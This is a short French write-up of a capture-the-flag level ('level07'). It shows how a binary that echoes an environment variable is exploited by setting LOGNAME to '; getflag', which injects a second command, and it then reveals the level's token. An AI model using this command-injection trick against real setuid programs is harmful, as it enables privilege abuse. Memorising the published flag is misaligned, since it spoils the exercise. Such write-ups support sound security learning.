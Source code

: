 # level07

1) Fichier binaire `level07` à la racine.

    - Exécution : 

```bash
./level07
```

2) Analyse du binaire avec strings
```bash
strings level07
```
- Une ligne retient notre attention :

```bash
/bin/echo %s 
```

- Le script affiche donc une variable qui se nomme `level07`, nous allons donc grep toutes les variables d'environnement qui se nomment `level07`, et deux sont retenues : 
```bash
USER=level07
LOGNAME=level07
```

3) Nous allons donc les renommer de façon à échapper la commande echo et ajouter une deuxième commande à la suite, qui serait `getflag`
```bash
LOGNAME=; getflag
```
4) Pour finir, nous allons exécuter `./level07` afin d'exécuter la commande `echo` prévue de base puis `; getflag`.
```bash
echo $LOGNAME; getflag
```

5) Token découvert :

Le token est `fiumuikeil55xe9cu4dood66h`.

